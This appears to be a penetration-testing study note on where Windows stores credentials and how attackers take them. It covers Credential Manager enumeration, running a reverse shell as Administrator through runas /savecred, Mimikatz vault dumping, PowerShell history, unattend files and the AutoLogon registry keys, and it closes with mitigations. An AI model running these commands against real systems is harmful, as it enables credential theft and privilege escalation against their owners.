

# Stored Credentials and Windows Credential Manager

## Overview
During a penetration test or red team engagement, discovering stored credentials is often the fastest and quietest path to privilege escalation. Before attempting complex exploits involving token manipulation or kernel vulnerabilities, an attacker should exhaustively search the file system, registry, and built-in credential storage mechanisms. Administrators and automated systems frequently leave behind plaintext passwords or easily reversible hashes in configuration files, scripts, or the Windows Credential Manager. 

This document explores the primary locations and mechanisms where Windows stores credentials, how attackers enumerate and extract them, and the underlying technologies (like DPAPI) that attempt to protect them.

## Windows Credential Manager (`cmdkey`)
The Windows Credential Manager is a built-in feature that securely stores usernames and passwords for network shares, remote desktop connections, and websites. While the UI is accessible via the Control Panel, the command-line utility `cmdkey.exe` is the primary tool used by attackers for enumeration.

### Enumeration
An attacker gaining a shell on a Windows machine will immediately check for stored credentials:
```cmd
cmdkey /list
```
This command outputs a list of all targets for which credentials are saved in the current user's vault. A common finding is saved credentials for `TERMSRV` (Remote Desktop), network shares (`DomainControler\Share`), or administrative service accounts.

### Exploitation via `runas`
If `cmdkey /list` reveals stored credentials, the attacker *cannot* simply extract the plaintext password directly using native tools (due to DPAPI protection). However, they can seamlessly *use* the stored credentials to execute commands as that user without needing the password.

The `runas` command includes a `/savecred` flag, which instructs Windows to use the password stored in the Credential Manager for the specified user.
```cmd
# Assuming cmdkey shows stored credentials for 'Administrator'
runas /user:Administrator /savecred "C:\Temp\reverse_shell.exe"
```
If successful, the reverse shell will execute under the context of the Administrator, achieving instant vertical privilege escalation.

## Extracting the Plaintext: DPAPI and Mimikatz
If the attacker requires the actual plaintext password (e.g., to move laterally to other machines rather than just escalating locally), they must defeat the Data Protection API (DPAPI). 

DPAPI is the cryptographic subsystem Windows uses to encrypt data stored in the Credential Manager, browser cookies, and EFS. The encryption key is derived from the user's logon password. Therefore, if an attacker has SYSTEM access or the user's plaintext password, they can decrypt the vault.

Tools like Mimikatz or the PowerShell module `SessionGopher` can automate the extraction and decryption of the Credential Manager vault:
```text
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # vault::cred /patch
```
This command will dump the contents of the vault, revealing the plaintext passwords for the entries listed by `cmdkey`.

## Unattended Installation Files
When deploying Windows across a large enterprise, administrators often use unattended answer files to automate the setup process. These XML files contain configuration data, including local administrator passwords, domain join credentials, and product keys. 

If these files are not properly deleted after the installation is complete, they become a prime target.
Attackers search for files named `unattend.xml`, `autounattend.xml`, `sysprep.inf`, or `sysprep.xml` in directories such as:
- `C:\Windows\Panther\`
- `C:\Windows\Panther\Unattend\`
- `C:\Windows\System32\sysprep\`

**Example Content:**
```xml
<UserAccounts>
    <LocalAccounts>
        <LocalAccount wcm:action="add">
            <Password>
                <Value>SuperSecretAdminPassword123</Value>
                <PlainText>true</PlainText>
            </Password>
            <Description>Local Admin</Description>
            <DisplayName>Administrator</DisplayName>
            <Group>Administrators</Group>
            <Name>Administrator</Name>
        </LocalAccount>
    </LocalAccounts>
</UserAccounts>
```
Even if the `<PlainText>` tag is false and the value is base64 encoded, the decoding process is trivial and the underlying password is often easily recoverable.

## PowerShell History (PSReadLine)
Modern versions of PowerShell include the `PSReadLine` module, which maintains a history of all commands executed in the console, persisting them to disk across reboots. This is incredibly useful for administrators but disastrous for security if they type passwords directly into command-line arguments (e.g., when connecting to a database or creating a PSCredential object).

The history file is typically located at:
`C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

An attacker will read this file to hunt for strings like `Password`, `ConvertFrom-SecureString`, or `net use`.
```powershell
# Read the history file for the current user
Get-Content (Get-PSReadLineOption).HistorySavePath
```

## AutoLogon Registry Keys
In environments where machines are configured to act as kiosks or digital signage, administrators may configure Windows to automatically log in a specific user upon boot. This configuration is stored in the Registry in plaintext.

An attacker can query the `Winlogon` key to extract these credentials:
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
The attacker looks for three specific values:
- `DefaultUserName`
- `DefaultDomainName`
- `DefaultPassword`

If `DefaultPassword` is populated, the attacker immediately gains the plaintext credentials for that account, which may possess elevated privileges on the local machine or the domain.

## ASCII Diagram: DPAPI and Credential Extraction



## Other Notable Credential Locations
- **IIS Configuration Files:** `C:\Windows\System32\inetsrv\config\applicationHost.config` often contains plaintext or trivially decryptable credentials for Application Pool identities or virtual directories.
- **PuTTY Sessions:** Registry keys (`HKCU\Software\SimonTatham\PuTTY\Sessions`) store SSH connection strings and sometimes plaintext proxy passwords.
- **Group Policy Preferences (GPP):** While mostly an Active Directory domain escalation vector, local `Groups.xml` files in the SYSVOL cache can contain the historically infamous cPassword attribute, which is encrypted with an industry-known static key published by Microsoft.

## Defenses and Mitigations
1. **Disable PSReadLine History:** If not needed, or ensure administrative scripts do not pass credentials as command-line arguments.
2. **Clean Up Unattended Files:** Implement deployment scripts that automatically securely delete `Panther` and `sysprep` files post-installation.
3. **Restrict Local Admin Access:** If a user saves their credentials using Credential Manager, an attacker compromising that user's session can use them. Limit the scope of what saved credentials can access.
4. **Credential Guard:** Enable Windows Defender Credential Guard to protect NTLM hashes and Kerberos tickets, though this provides limited protection against DPAPI-extracted Credential Manager plaintext passwords.

## Chaining Opportunities
- Extracting credentials via `runas /savecred` provides immediate High Integrity execution, bypassing the need for [[12 - UAC Bypass Techniques]].
- Finding local Administrator credentials often leads directly to [[17 - LSASS Dumping and Mimikatz]] to harvest further domain credentials from memory.
- Plaintext passwords found in history files can be used for Lateral Movement across the domain.

## Related Notes
- [[17 - LSASS Dumping and Mimikatz]]
- [[12 - UAC Bypass Techniques]]
- [[02 - Automated Privilege Escalation Tools]]
- [[18 - DPAPI and Data Extraction]]
